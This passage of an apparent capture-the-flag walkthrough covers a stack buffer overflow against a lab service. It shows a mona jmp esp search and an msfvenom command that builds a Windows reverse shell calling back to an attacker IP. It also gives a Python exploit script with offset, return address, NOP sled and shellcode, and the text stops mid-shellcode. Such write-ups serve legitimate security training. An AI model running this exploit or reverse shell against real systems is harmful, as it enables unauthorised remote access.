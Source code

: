 Finally, we got:

```
Hooray, normal shellcode unmodified
```

Means that the bad char hunting is over, we now need to proceed with finding the `jmp esp` gadget, we need to run:

```
!mona jmp -r esp -cpb "\x00\x01\x02\x07\x08\x20\x2e\x2f\xa0\xa1"
```

![](images/Pasted%20image%2020250529125932.png)

As seen, we get some jmp esp gadgets, let's choose the first one:

```
0x625011AF
```

In our exploit, we need to change it too little-endian:

```python
retn = "\xaf\x11\x50\x62"
```

Now, we are approaching the end, we need to use `msfvenom` to generate the shellcode, let's do:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.14.21.28 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02\x07\x08\x20\x2e\x2f\xa0\xa1" -f c
```

We need to copy the output to our payload and add a NOP sled, here's the full script I got:

```python
#!/usr/bin/env python3

import socket

# Target configuration
ip      = "10.10.199.216"
port    = 1337

# Exploit parameters
prefix  = "OVERFLOW1 "          # Command prefix
offset  = 1978                   # offset to EIP
overflow= "A" * offset          # filler to reach EIP
# Return address: jmp esp in essfunc.dll (0x625011AF) little-endian
retn    = "\xaf\x11\x50\x62"
# NOP sled
padding = "\x90" * 32

# Shellcode (Generate with msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c)
payload = (
    b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
    b"\x0e\xb6\xd6\x8d\xcd\x83\xee\xfc\xe2\xf4\x4a\x3e\x0f\xcd"
    b"\xb6\xd6\xed\x44\x53\xe7\x4d\xa9\x3d\x86\xbd\x46\xe4\xda"
    b"\x06\x9f\xa2\x5d\xff\xe5\xb9\x61\xc7\xeb\x87\x29\x21\xf1"
    b"\xd7\xaa\x8f\xe1\x96\x17\x42\xc0\xb7\x11\x6f\x3f\xe4\x81"
    b"\x06\x9f\xa6\x5d\xc7\xf1\x3d\x9a\x9c\xb5\x55\x9e\x8c\x1c"
    b"\xe7\x5d\xd4\xed\xb7\x05\x06\x84\xae\x35\xb7\x84\x3d\xe2"
    b"\x06\xcc\x60\xe7\x72\x61\x77\x19\x80\xcc\x71\xee\x6d\xb8"
    b"\x40\xd5\xf0\x35\x8d\xab\xa9\xb8\x52\x8e\x06\x95\x92\xd7"
    b"\x5e\xab\x3d\xda\xc6\x46\xee\xca\x8c\x1e\x3d\xd2\x06\xcc"
    b"\x66\x5f\xc9\xe9\x92\x8d\xd6\xac\xef\x8c\xdc\x32\x56\x89"
    b"\xd2\x97\x3d\xc4\x66\x40\xeb\xbe\xbe\xff\xb6\xd6\xe5\xba"
    b"\xc5\xe4\xd2\x99\xde\x9a\xfa\xeb\xb1\x29\x58\x75\x26\xd7"
```